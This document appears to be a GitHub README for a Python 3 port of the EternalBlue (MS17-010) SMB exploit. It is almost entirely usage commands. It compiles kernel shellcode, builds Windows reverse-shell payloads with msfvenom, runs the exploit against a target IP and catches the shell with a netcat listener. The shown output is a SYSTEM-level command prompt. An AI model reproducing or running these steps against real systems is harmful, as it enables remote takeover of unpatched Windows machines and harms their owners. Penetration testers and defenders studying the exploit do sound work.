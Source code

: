 # EternalBlue-in-Python3

## How to use

### Clone the repository

```
git clone https://github.com/Gabriel-Lima232/EternalBlue-in-Python3.git
```

### Compiling the shellcode(s)

### X64

```
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
```

### X86

```
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin
```

### Create a Bin

### X64

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x64 --format raw -o sc_x64_payload.bin
```

### X86

```
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x86 --format raw -o sc_x86_payload.bin
```

### Exploit

```
python3 eternal-blue.py TARGET-IP final.bin
```

Open NC and wait the connection

```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [0.0.0.0] from (UNKNOWN) [0.0.0.0] 49191
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

